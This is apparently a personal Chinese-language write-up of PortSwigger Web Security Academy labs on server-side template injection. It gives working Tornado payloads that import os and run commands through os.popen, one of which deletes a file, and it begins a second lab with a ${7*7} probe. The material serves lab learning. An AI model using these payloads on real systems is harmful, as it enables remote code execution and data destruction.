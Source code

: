 ### 題目解釋
Tornado 的 SSTI，會修改使用者在留言頁面的名字

### 解答
觀察 POST 修改`Preferred name` 的參數 `blog-post-author-display`，預設是 `user.first_name`，修改成 `7*7` ，到貼文的留言處，例如 https://ac4c1ff91f021d3cc027040a00bc00f9.web-security-academy.net/post?postId=3 去留言，會發現名字變成 49。


改發
```
blog-post-author-display='meow'}}{{3*2}}
```

名字會變成

```
meow6}} 
```


再發
```
'meow'}}{% import os %}{{os.popen("whoami").read()}}
```

可以回傳使用者名字

```
meow'}}{% import os %}{{os.popen("rm /home/carlos/morale.txt").read()}}&
```

順利刪除指定檔案


## [Lab: Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)
### 題目敘述
 This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: content-manager:C0nt3ntM4n4g3r 
### 題目解釋
猜 Template 內容，然後在貼文的地方修改並 RCE 刪除指定檔案

### 解答

修改文章的地方可以觀察到

```
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p>
```

如果插入 `${7*7}` 會回傳 `49`
